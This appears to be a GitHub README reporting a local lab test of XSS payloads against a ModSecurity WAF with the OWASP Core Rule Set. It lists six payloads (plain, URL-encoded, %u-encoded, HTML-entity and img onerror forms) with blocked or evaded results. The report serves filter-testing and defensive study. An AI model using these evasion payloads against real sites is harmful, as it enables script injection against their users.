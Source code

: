 # Python-xss  Payload Evasion

## Setup

- **Web Application**: Sample application hosted locally with basic input fields vulnerable to XSS.
- **WAF**: ModSecurity with OWASP Core Rule Set (CRS).
- **Filters**: Enabled character-based filtering for common XSS patterns (e.g., `<script>`, `alert`, `onerror`).

## Payloads Tested

1. **Basic Payload**:
   - `<script>alert("XSS")</script>`
   - **Result**: Blocked by WAF.

2. **URL Encoded Payload**:
   - `%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E`
   - **Result**: Blocked by WAF.

3. **Hexadecimal Encoding**:
   - `%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%58%53%53%22%29%3c%2f%73%63%72%69%70%74%3e`
   - **Result**: Blocked by WAF.

4. **UTF-16 Encoding**:
   - `%u003c%u0073%u0063%u0072%u0069%u0070%u0074%u003e%u0061%u006c%u0065%u0072%u0074%u0028%u0022%u0058%u0053%u0053%u0022%u0029%u003c%u002f%u0073%u0063%u0072%u0069%u0070%u0074%u003e`
   - **Result**: Blocked by WAF.

5. **HTML Entities**:
   - `&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#88;&#83;&#83;&#34;&#41;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;`
   - **Result**: Evaded WAF.

6. **Alternative Syntax**:
   - `<img src=x onerror=alert("XSS")>`
   - **Result**: Evaded WAF.

## Conclusion

The payloads using HTML entities and alternative syntax successfully evaded the character-based filters of the WAF. This highlights the limitations of simple character-based filtering and underscores the need for more robust XSS protection mechanisms.
